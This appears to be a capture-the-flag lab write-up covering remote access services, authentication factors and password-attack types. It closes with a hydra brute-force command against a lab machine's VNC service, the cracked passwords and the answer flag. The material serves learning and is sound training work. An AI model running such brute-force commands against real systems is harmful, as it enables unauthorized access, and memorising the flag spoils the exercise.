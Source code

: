 # HE KNOWS WHEN YOU'RE AWAKE

## Remote Access Services
* allows an individual to administer an end point without needing to be physically in front the endpoint
 * **SSH (Secure Shell):** initially used with Unix-like systems for remote login that provides the user with a CLI that can be used to execute commnads
 * **RDP (Remote Desktop Protocol):** also known as RDC (Remote Destktop Connection) or RD, provides a graphical user interface (GUI) to access an MS Windows system
 * **VNC (Virtual Network Computing):** provides a GUI which allows the user to view the desktop and utilize the mouse and keyboard.
  * available for MS Windows, Linux, MacOS, Andriod, and Rasberry Pi

## Authentication
* refers to the process where a system validates your identity
* one or more of these is used to authenticate to a remote service
* the user needs to prove their ifentity by providing one or more of the following:
  1. **Something you know:** refers to something you can memorize, ie. **password** or a **PIN**
  2. **Something you have:** refers to something you own, ie. **security token, mobile phone**, or a **key file**
  3. **Something you are:** refers to biometeric authentication, ie. **fingerprint** or **retina scan**

## Attacking Passwords
1. **Shoulder Surfing:** as the name suggest, an attacker would look over the shoulder of a vicim to see the pattern they used to unlock their phone or PIN used at an ATM
2. **Password Guessing:** leverages personal information about the target in order to guess the password
3. **Dictionary Attack: ** expands on the password guessing and attempts to include all valid words in a dictionary or word list
4. **Brute Force Attack: ** the most exhaustive and time-consuming where an attacker can try all possible character combinations

## Hacking an Authentication Service
* when possible it is always a good idea to automate tasks, **hydra** is a utility that can help us automate **brute forcing password atacks** for a variety of services
* sytnax for hydra:
**hydra -l [USERNAME] -P [WORDLIST] [TARGET IP] [SERVICE TO ATTACK]**
 * can also use **[SERVICE]://[TARGET IP]**
 
 
 **Use Hydra to find the VNC password if the target with IP address 10.10.126.77. What is the password?**
 ```bash
 hydra -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-1000.txt 10.10.126.77 vnc
 ```
 ```
 HHydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-12-05 15:48:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task
[DATA] attacking vnc://10.10.126.77:5900/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[5900][vnc] host: 10.10.126.77   password: 1q2w3e4r
[5900][vnc] host: 10.10.126.77   password: 1q2w3e4r5t
[STATUS] 599.00 tries/min, 599 tries in 00:01h, 401 to do in 00:01h, 16 active
[STATUS] attack finished for 10.10.126.77 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-12-05 15:50:03
```

**Using a VNC client on the AttackBox, connect to the target of IP address 10.10.126.77. What is the flag written on the target’s screen?**
```
THM{I_SEE_YOUR_SCREEN}
```
